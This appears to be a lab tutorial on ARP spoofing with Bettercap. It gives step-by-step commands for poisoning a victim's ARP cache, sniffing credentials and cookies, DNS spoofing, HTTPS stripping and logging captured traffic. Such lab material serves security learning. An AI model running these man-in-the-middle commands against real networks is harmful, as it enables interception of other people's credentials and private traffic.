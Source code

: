 **ARP spoofing using Bettercap** in a safe and controlled lab environment. Bettercap automates ARP spoofing and allows real-time traffic sniffing, MITM, DNS spoofing, and more.




## ✅ Lab Setup Requirements

* **Attacker:** Kali Linux with Bettercap installed (`sudo apt install bettercap`)
* **Victim Machine:** Windows/Linux VM or device on the same LAN/Wi-Fi
* **Network:** All devices on the same subnet (e.g., `192.168.1.0/24`)

---

## 🔧 Step-by-Step ARP Spoofing with Bettercap

### 1. **Launch Bettercap**

Start Bettercap with your active interface (e.g., `eth0`, `wlan0`, etc.):

```bash
sudo bettercap -iface eth0
```

---

### 2. **Enable IP Forwarding (required for MITM)**

In Bettercap terminal:

```bash
set net.ipv4.forwarding true
```



### 3. **Set ARP Spoofing Target**

Find the victim IP (e.g., `192.168.1.10`), then:

```bash
set arp.spoof.targets 192.168.1.10
arp.spoof on
```



### 4. **Enable Packet Sniffing**

```bash
net.sniff on
```

Optional: Show full details:

```bash
set net.sniff.verbose true
```



### 5. **Monitor Output**

As traffic is routed through your machine, Bettercap will display captured credentials, cookies, or HTTP requests.



## Optional Add-ons

### DNS Spoofing

```bash
set dns.spoof.domains example.com
set dns.spoof.address 192.168.1.99
dns.spoof on
```

### HTTPS Downgrade (if not blocked by HSTS)

```bash
https.proxy on
https.strip on
```

> Modern browsers often block this due to HSTS, so results may vary.



## Exit and Clean Up

```bash
arp.spoof off
net.sniff off
exit
```

Also, disable IP forwarding:

```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```



## Bonus: Save Output

You can log sniffed data like this:

```bash
set net.sniff.output /path/to/output.pcap
```
